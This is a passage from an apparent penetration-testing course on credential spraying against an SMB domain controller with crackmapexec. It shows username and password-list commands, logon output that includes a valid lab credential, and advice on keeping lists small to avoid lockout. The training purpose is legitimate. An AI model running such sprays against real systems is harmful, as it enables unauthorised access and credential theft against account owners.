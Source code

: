 ```shell-session
SMB         10.129.203.121  445    DC01             [-] inlanefreight.htb\david:Inlanefreight01! STATUS_LOGON_FAILURE 
SMB         10.129.203.121  445    DC01             [-] inlanefreight.htb\david:Inlanefreight02! STATUS_LOGON_FAILURE 
SMB         10.129.203.121  445    DC01             [-] inlanefreight.htb\carlos:Inlanefreight01! STATUS_LOGON_FAILURE 
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\carlos:Inlanefreight02!
```

We could also provide a password list with a file, for example, `passwords.txt`, which will test all passwords for each user, which can be helpful for password spraying but not so much when there is an Account Lockout policy set. We will discuss Account Lockout later in this section.

If we know the account lockout is set to 5, we could create a password list of 2 or 3 passwords to prevent an account from being locked out.

### **Password Attack with a List of Usernames and a Password List**

```shell-session
$ crackmapexec smb 10.129.203.121 -u users.txt -p passwords.txt 

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [-] inlanefreight.htb\noemi:Inlanefreight01! STATUS_LOGON_FAILURE 
SMB         10.129.203.121  445    DC01             [-] inlanefreight.htb\noemi:Inlanefreight02! STATUS_LOGON_FAILURE 
SMB         10.129.203.121  445    DC01             [-] inlanefreight.htb\noemi:Inlanefreight03! STATUS_LOGON_FAILURE 
SMB         10.129.203.121  445    DC01             [-] inlanefreight.htb\david:Inlanefreight01! STATUS_LOGON_FAILURE 
SMB         10.129.203.121  445    DC01             [-] inlanefreight.htb\david:Inlanefreight02! STATUS_LOGON_FAILURE 
SMB         10.129.203.121  445    DC01             [-] inlanefreight.htb\david:Inlanefreight03! STATUS_LOGON_FAILURE 
SMB         10.129.203.121  445    DC01             [-] inlanefreight.htb\carlos:Inlanefreight01! STATUS_LOGON_FAILURE 
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\carlos:Inlanefreight02!
```

## Checking One User Equal to One Password with a Wordlist

Another great feature of CME is if we know each user's password, and we want to test if they are still valid. For that purpose, use the option `--no-bruteforce`. This option will use the 1st user with the 1st password, the 2nd user with the 2nd password, and so on.

### **Disable Bruteforcing**

```shell-session
$ cat userfound.txt 

grace
carlos
```
